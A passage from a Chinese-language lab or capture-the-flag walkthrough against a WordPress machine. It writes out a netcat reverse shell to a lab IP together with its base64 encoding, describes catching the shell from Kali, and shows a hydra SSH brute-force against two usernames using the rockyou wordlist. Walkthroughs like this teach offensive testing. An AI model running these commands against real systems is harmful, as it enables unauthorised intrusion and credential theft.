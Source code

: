 那么尝试写入一个反弹`shell`，然后进行`base64`编码，测试常用的`bash`命令不行，就以`nc`

```shell
nc -e /bin/bash 192.168.10.2 9999
#编码
bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMTAuMiA5OTk5
```

先在`kali`中开启监听9999端口，然后浏览器访问，即可反弹成功

![](./pic-1/23-1.jpg)







## ssh爆破

不过之前`wpscan`扫描出两个用户`michael`和`steven`，结合既然`wordpress`爆破不出，使用`hydra`测试`ssh`

```shell
hydra -L user -P /usr/share/wordlists/rockyou.txt 192.168.10.16 ssh
```

很快就出现一个，让其继续爆破

![](./pic-1/24.jpg)

登录这个账户，确实可行

![](./pic-1/25.jpg)
